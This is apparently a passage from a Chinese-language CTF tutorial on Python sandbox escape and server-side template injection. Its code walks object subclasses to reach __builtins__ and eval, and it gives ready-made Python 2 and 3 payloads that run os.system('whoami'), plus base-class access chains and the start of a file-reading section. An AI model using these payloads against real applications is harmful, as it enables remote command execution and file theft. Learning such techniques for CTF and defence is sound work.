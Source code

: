 所以我们找那些那么类有 `**__builtins__**` 属性

```python
search = "__builtins__"
num = -1
for i in ().__class__.__bases__[0].__subclasses__():  ## 遍历所有类
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass

 
p> 
<class '_frozen_importlib._ModuleLock'> 80
<class '_frozen_importlib._DummyModuleLock'> 81
<class '_frozen_importlib._ModuleLockManager'> 82
<class '_frozen_importlib.ModuleSpec'> 83
......
```

多了很多

```python
print(().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')"))
p> desktop-p7e2la8\sanqiushu\n0
```

CTF 中的payload

这时候我们的命令执行payload就出来了：
python3：

```
().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

python2：

```
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```



其他基础类：

```python
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
```